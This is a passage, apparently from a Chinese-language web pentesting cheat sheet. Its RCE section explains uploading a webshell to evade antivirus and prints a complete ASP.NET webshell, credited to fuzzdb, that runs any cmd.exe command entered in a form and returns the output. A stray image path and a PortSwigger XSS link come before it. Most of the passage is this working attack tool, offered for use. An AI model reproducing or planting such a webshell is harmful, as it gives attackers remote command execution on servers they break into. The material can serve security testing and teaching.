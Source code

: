 <http://blog.portswigger.net/2016/01/xss-without-html-client-side-template.html>

## 15.RCE

使用WEBSHELL上传（.NET）绕过AV：
这是一个示例，其中包含fuzzdb项目中的一个webshel​​l：

```
<%@ Page Language="C#" Debug="true" Trace="false" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.IO" %>
<script Language="c#" runat="server">
void Page_Load(object sender, EventArgs e)
{
}
string executeIt(string arg)
{
ProcessStartInfo psi = new ProcessStartInfo();
psi.FileName = "cmd.exe";
psi.Arguments = "/c "+arg;
psi.RedirectStandardOutput = true;
psi.UseShellExecute = false;
Process p = Process.Start(psi);
StreamReader stmrdr = p.StandardOutput;
string s = stmrdr.ReadToEnd();
stmrdr.Close();
return s;
}
void cmdClick(object sender, System.EventArgs e)
{
Response.Write("<pre>");
Response.Write(Server.HtmlEncode(executeIt(txtArg.Text)));
Response.Write("</pre>");
}
</script>
<HTML>
<HEAD>
<title>REALLY NICE</title>
</HEAD>
<body >
<form id="cmd" method="post" runat="server">
<asp:TextBox id="txtArg" style="Z-INDEX: 101; LEFT: 405px; POSITION: absolute; TOP: 20px" runat="server" Width="250px"></asp:TextBox>
<asp:Button id="testing" style="Z-INDEX: 102; LEFT: 675px; POSITION: absolute; TOP: 18px" runat="server" Text="execute" OnClick="cmdClick"></asp:Button>
<asp:Label id="lblText" style="Z-INDEX: 103; LEFT: 310px; POSITION: absolute; TOP: 22px" runat="server">Command:</asp:Label>
</form>
</body>
</HTML>
```
